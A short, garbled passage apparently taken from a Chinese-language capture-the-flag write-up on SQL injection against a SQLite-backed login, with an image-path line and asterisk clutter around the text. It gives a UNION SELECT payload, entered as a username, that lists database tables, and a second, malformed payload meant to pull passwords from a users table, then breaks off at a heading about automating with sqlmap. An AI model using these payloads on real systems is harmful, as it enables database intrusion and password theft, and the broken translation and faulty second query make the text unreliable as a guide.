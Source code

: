 *****![](img/6c28d6617242c5d77607bfa1d302bdfe.png)*****

*****有了这些知识，这就很容易被利用。例如，要从数据库中获取所有的表，我们可以创建一个名为:*****

```
***' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''***
```

*****要在密码中找到该标志，请注册一个用户名:*****

*****' union select 1，group _ concat(password from users '*****

*****使用 Sqlmap 自动化开发*****

